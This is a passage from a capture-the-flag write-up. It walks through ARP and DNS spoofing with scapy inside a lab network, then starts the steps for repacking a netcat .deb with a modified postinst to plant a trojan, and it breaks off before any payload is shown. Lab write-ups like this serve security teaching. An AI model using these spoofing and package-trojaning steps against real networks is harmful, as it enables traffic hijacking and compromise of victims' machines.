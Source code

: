 Now we know that we need to spoof the ARP request to 10.6.6.35 pretending that we are 10.6.6.53, so we need to get the infected machine's MAC address:
```shell
guest@3906271f242a:~$ arp -a
arp_requester.guestnet0.kringlecastle.com (10.6.6.35) at 4c:24:57:ab:ed:84 [ether] on eth0
```

Then, we use the provided skeleton script for the `scapy` packet and fill it in. (See `arp_shenanigans/arp_resp.py`.) Running the script, sends out the reply to 10.6.6.35 who then makes a DNS query to our machine:
```shell
00:15:32.794499 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28   
00:15:32.818593 ARP, Reply 10.6.6.53 is-at 02:42:0a:06:00:02, length 28    
00:15:32.842914 IP 10.6.6.35.48825 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)
```

Next, we fill in the skeleton script for a spoofed DNS `scapy` packet. (See `arp_shenanigans/dns_resp.py`.) We first start up a web server, and then run this script, which will wait until we run `arp_resp.py`. When the DNS reply is sent to 10.6.6.35, it sends an HTTP request our way:
```shell
guest@3906271f242a:~$ python3 -m http.server 80
10.6.6.35 - - [18/Dec/2020 00:38:55] code 404, message File not found 
10.6.6.35 - - [18/Dec/2020 00:38:55] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 404 -
```

Therefore, we need to put a trojan in this location on the local machine. 

#### Building a Trojan
For the exploit, we have to modify the `postinst` file in the dpkg that will be run after it is installed. Pick the `.deb` file in `~/debs/` that has the traditional version of `netcat` installed. Move this file to the appropriate location:

1. Create a location to work in:
    ```shell
    guest@24fc902b00b2:~$ mkdir /tmp/packing
    guest@24fc902b00b2:~$ cd /tmp/packing
    ```
2. Copy over the `.deb` files:
    ```shell
    guest@24fc902b00b2:/tmp/packing$ cp ~/debs/netcat-traditional_1.10-41.1ubuntu1_amd64.deb /tmp/packing/
    ```
3. Extract it:
    ```shell 
    guest@24fc902b00b2:/tmp/packing$ dpkg -x netcat-traditional_1.10-41.1ubuntu1_amd64.deb work
    guest@24fc902b00b2:/tmp/packing$ ls
    netcat-traditional_1.10-41.1ubuntu1_amd64.deb  work
    ```
4. Create a `DEBIAN` directory for the payload:
    ```shell
    guest@24fc902b00b2:/tmp/packing$ mkdir work/DEBIAN
    ```
5. Create the `control` and `postinst` files:
    ```shell
    guest@24fc902b00b2:/tmp/packing$ ar -x netcat-traditional_1.10-41.1ubuntu1_amd64.deb 
    guest@24fc902b00b2:/tmp/packing$ ls
    control.tar.xz  data.tar.xz  debian-binary  netcat-traditional_1.10-41.1ubuntu1_amd64.deb  work

